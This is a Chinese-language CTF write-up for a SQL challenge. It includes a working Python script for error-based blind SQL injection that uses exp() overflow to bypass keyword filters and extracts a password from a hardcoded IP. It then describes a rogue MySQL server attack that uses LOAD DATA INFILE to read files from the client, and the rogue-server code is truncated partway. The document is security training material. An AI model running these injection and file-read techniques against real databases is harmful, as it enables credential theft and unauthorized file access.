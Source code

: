 # 全宇宙最简单的SQL

## 操作内容

用户名存在sql注入.一大堆被过滤了:sleep,benchmark,or...就基于报错的盲注
利用exp(大数*语句)实现将 语句结果0 转化为报错.

```python
#coding=utf8
import requests
tab=[]
for x in range(32,128):
    if chr(x) not in "#%\"'+-./":
        tab.append(chr(x))
#print tab
#payload='''admin'and exp(2579*(select (select `2` from ( select 1,2 union select * from user )gg limit 1,1) like "{}%"))  #'''
payload='''admin'and exp(2579*(select ascii (substring((select `2` from ( select 1,2 union select * from user )gg limit 1,1),{},1)) = {}))  #'''
url="http://39.106.224.151:52105/"
dd=""
for y in range(0x20):
    for x in range(31,128):
        tmp=payload.format(str(y),str(x))
        #print tmp
        data={
            'username': tmp,
            'password':'1' 
        }
        res=requests.post(url=url,data=data)
        if "登陆失" not in res.content:
            dd+=chr(x)
            print dd
```

得到密码![](./web2.png)
进去之后发现可以连接外部数据库  可以查询
然后就LOAD DATA INFILE
之后利用load进来远程的flag
位置就是密码里面的位置.
利用`https://github.com/allyshka/Rogue-MySql-Server`exp
vps上脚本跑起来让服务端连就可以了
![](./sql.jpg)
exp

```php
#!/usr/bin/env python
#coding: utf8


import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers



PORT = 3306

log = logging.getLogger(__name__)

log.setLevel(logging.INFO)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
    tmp_format
)

filelist = (
    '/fll1llag_h3r3',
)

...
```

